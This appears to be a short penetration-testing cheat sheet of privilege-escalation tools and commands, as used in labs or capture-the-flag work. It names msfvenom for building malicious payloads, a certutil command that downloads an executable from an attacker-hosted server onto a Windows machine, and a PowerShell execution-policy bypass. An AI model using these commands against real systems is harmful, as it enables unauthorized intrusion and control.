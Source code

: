 1. Useful commands/scripts

`msfvenom` creates malicious payloads in a variety of formats, see google cheatsheets for usage
`python -m SimpleHTTPServer 80` serves all the files in your current directory as a web server
`certutil -urlcache -f http://IP/sh.exe sh.exe` download file from above command on windows
`linenum.sh` good linux enumeration shell
`linuxprevchecker.py` another good linux enumeration shell
`msfconsole`: `use multi/recon/local_exploit_suggester` good enumeration script if you have setup a meterpreter shell
`rastamouse sherlock` good windows enumeration script
- `powershell.exe -exec bypass -Command "% {Import-Module .\sher.ps1; Find-AllVulns`"

https://github.com/AonCyberLabs/Windows-Exploit-Suggester good windows exploit suggester, use `systeminfo` to get sysinto to feed script.
Compile C exploit: `gcc FILE.c -o ex.exe`
https://www.fuzzysecurity.com/tutorials/16.html Good exploits on windows

No tty? https://netsec.ws/?p=337